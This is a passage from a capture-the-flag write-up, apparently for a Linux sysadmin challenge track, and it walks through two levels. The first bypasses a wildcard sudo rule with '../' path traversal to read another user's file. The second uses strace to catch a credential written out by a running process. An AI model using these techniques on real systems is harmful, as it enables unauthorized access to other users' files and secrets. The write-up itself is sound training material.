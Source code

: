Also, we if we can run something with `sudo`.

```bash
trinity@sysadmin-track:~$ sudo -l
[sudo] password for trinity:
Matching Defaults entries for trinity on sysadmin-track:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User trinity may run the following commands on sysadmin-track:
    (neo) /bin/cat /home/trinity/*
```

We can bypass it by `../` (directory up). Let's read the file that we've noted.

```bash
trinity@sysadmin-track:~$ sudo -u neo /bin/cat /home/trinity/../neo/phonebook
The Oracle        1800-133-7133
Persephone        345-555-1244




change my current password FLAG-XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
don't forget to remove this :)
```

# Level 7

![The 7th challenge](/assets/ringzer0/sysadmin_linux/level7.png)

We have to check user's process list there.

![neos processes](/assets/ringzer0/sysadmin_linux/neo_processes.png)

We can see some strange process, but we can trace the process with `strace`.

```bash
neo@sysadmin-track:~$ strace -p1311365
strace: Process 1311365 attached
restart_syscall(<... resuming interrupted read ...>) = 0
write(-1, "telnet 127.0.0.1 23\n", 20)  = -1 EBADF (Bad file descriptor)
write(-1, "user\n", 5)                  = -1 EBADF (Bad file descriptor)
write(-1, "FLAG-XXXXXXXXXXXXXXXXXXXXXXXXX\n", 31) = -1 EBADF (Bad file descriptor) # EDITED
write(-1, "get-cpuinfo\n", 12)          = -1 EBADF (Bad file descriptor)
clock_nanosleep(CLOCK_REALTIME, 0, {tv_sec=10, tv_nsec=0}, 0x7ffe4a1b4430) = 0
```

